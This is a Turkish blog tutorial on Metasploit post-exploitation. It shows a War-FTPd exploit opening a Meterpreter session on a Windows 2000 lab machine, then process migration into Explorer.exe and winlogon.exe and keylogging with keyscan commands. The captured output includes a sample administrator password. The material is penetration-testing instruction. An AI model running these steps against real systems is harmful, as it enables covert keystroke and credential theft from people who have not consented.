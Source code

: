 ```yaml
---
draft: false

title:  'MSF Meterpreter Kalıcılık Sağlama'
date: '2017-06-15T13:54:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  'Bir hedef bilgisayara başarılı bir oturum açtığınızda, mevcut yetkiler izin veriyorsa ilk düşünülmesi gereken kalıcılık sağlamaktır. Kalıcılık, hedef sisteme daha sonradan giriş için açık kapılar oluşturulması veya daha kolay giriş yöntemleri bulunmasını kapsar.' 
 
url:  /tr/msf-meterpreter-kalicilik-saglama/ 
post_views_count:
    - '0'
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Kalıcılık Sağlama



Bir hedef bilgisayara başarılı bir oturum açtığınızda, mevcut yetkiler izin veriyorsa ilk düşünülmesi gereken kalıcılık sağlamaktır. Kalıcılık, hedef sisteme daha sonradan giriş için açık kapılar oluşturulması veya daha kolay giriş yöntemleri bulunmasını kapsar.



Bazı durumlarda, hedef üzerinde yaptığınız çalışmalar sistemi kararsız hale getirebilir. Sistemin tekrar başlatılması gerektiğinde bağlantınız da kopacaktır. Bu gibi durumlar için, hedef sisteme tekrar bağlanmanın kolay bir yolunu oluşturmak faydalı olacaktır.



Kalıcılık sağlamak için sistem hakkında kullanıcı bilgileri, token bilgileri, hash bilgileri ve bağlı olduğu diğer alt ağların keşfi ileride kullanım için oldukça fayda sağlamaktadır.



Bilgi toplamanın bir yöntemi de keylogger olarak ifade edilen yöntemdir.



## Metasploit içinde Keylogger Kullanımı



Bir sisteme giriş sağlandığında iki yaklaşım sergileyebilirsiniz. Çok hızlı olmak veya çok yavaş olmak. Keylogger, yani kullanıcının tuşlarını ve yazdıklarını kaydetmek, yavaş yaklaşıma bir örnektir. Bu yaklaşımda, gerçekleştirmek istediğiniz işlemleri çok hızlı yapamazsınız ancak uzun vadede çok kullanışlı bilgiler elde edebilirsiniz.



Öncelikle, bir exploit modülü kullanarak hedef sistemde oturum çalım.


```bash
msf exploit**(**warftpd_165_user**)** > exploit

> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Connecting to FTP server 172.16.104.145:21...
> Connected to target FTP server.
> Trying target Windows 2000 SP0-SP4 English...
> Transmitting intermediate stager **for **over-sized stage...**(**191 bytes**)**
> Sending stage **(**2650 bytes**)**
> Sleeping before handling stage...
> Uploading DLL **(**75787 bytes**)**...
> Upload completed.
> Meterpreter session 4 opened **(**172.16.104.130:4444 -> 172.16.104.145:1246**)**

meterpreter >
```



Oturum açıldıktan sonra, tuşları kayıt etmek için `Explorer.exe` prosesine geçmek başarı için daha garanti bir yoldur. Hedef sistemde `Explorer.exe` uygulaması, hangi PID numarasıyla çalışıyor öğreniyoruz ve `migrate` komutuyla geçiş yapıyoruz.


```bash
meterpreter > ps

Process list
**============**

    PID   Name               Path                                                   
    ---   ----               ----                                                   
    140   smss.exe           \SystemRoot\System32\smss.exe                          
    188   winlogon.exe       ??\C:\WINNT\system32\winlogon.exe                     
    216   services.exe       C:\WINNT\system32\services.exe                         
    228   lsass.exe          C:\WINNT\system32\lsass.exe                            
    380   svchost.exe        C:\WINNT\system32\svchost.exe                          
    408   spoolsv.exe        C:\WINNT\system32\spoolsv.exe                          
    444   svchost.exe        C:\WINNT\System32\svchost.exe                          
    480   regsvc.exe         C:\WINNT\system32\regsvc.exe                           
    500   MSTask.exe         C:\WINNT\system32\MSTask.exe                           
    528   VMwareService.exe  C:\Program Files\VMwareVMware Tools\VMwareService.exe 
    588   WinMgmt.exe        C:\WINNT\System32\WBEMWinMgmt.exe                     
    664   notepad.exe        C:\WINNT\System32 otepad.exe                          
    724   cmd.exe            C:\WINNT\System32\cmd.exe                              
    768   Explorer.exe       C:\WINNT\Explorer.exe                                  
    800   war-ftpd.exe       C:\Program Files\War-ftpd\war-ftpd.exe                 
    888   VMwareTray.exe     C:\Program Files\VMware\VMware Tools\VMwareTray.exe    
    896   VMwareUser.exe     C:\Program Files\VMware\VMware Tools\VMwareUser.exe    
    940   firefox.exe        C:\Program Files\Mozilla Firefox\firefox.exe           
    972   TPAutoConnSvc.exe  C:\Program Files\VMware\VMware Tools\TPAutoConnSvc.exe 
    1088  TPAutoConnect.exe  C:\Program Files\VMware\VMware Tools\TPAutoConnect.exe 

meterpreter > migrate 768
> Migrating to 768...
> Migration completed successfully.
meterpreter > getpid
Current pid: 768
```



PID geçişini kontrol ettikten sonra keylogger işlemini başlatalım.


```bash
meterpreter > keyscan_start
Starting the keystroke sniffer...
meterpreter > keyscan_dump
Dumping captured keystrokes...
   tgoogle.cm my credit amex   myusernamthi     amexpasswordpassword
```



Bir miktar süre geçtikten sonra kayıt dosyasını görmek için `keyscan_dump` komutunu kullanabilirsiniz. Yakalanan tuş vuruşlarını incelediğinizde, CTRL veya ALT gibi tuşların log dosyasına nasıl kayıt edildiğini de öğrenebilirsiniz.



Ayrıca, oturum açma bilgilerini de yakalamak isterseniz, `Explorer.exe` yerine `migrate` komutuyla, `winlogon` prosesine geçebilirsiniz.


```bash
meterpreter > ps

Process list
**=================**

PID Name         Path
--- ----         ----
401 winlogon.exe C:\WINNT\system32\winlogon.exe

meterpreter > migrate 401

> Migrating to 401...
> Migration completed successfully.

meterpreter > keyscan_start
Starting the keystroke sniffer...
```



Kayıt esnasında bir Administrator kullanıcı oturumu açılmıştır. Sonucuna bakalım.


```bash
meterpreter > keyscan_dump
Dumping captured keystrokes...
Administrator ohnoes1vebeenh4x0red!
```



Görüldüğü gibi, oturum açan kullanıcı “Administrator” ve parolası “ohnoes1vebeenh4x0red!” olarak tespit edilmiştir.
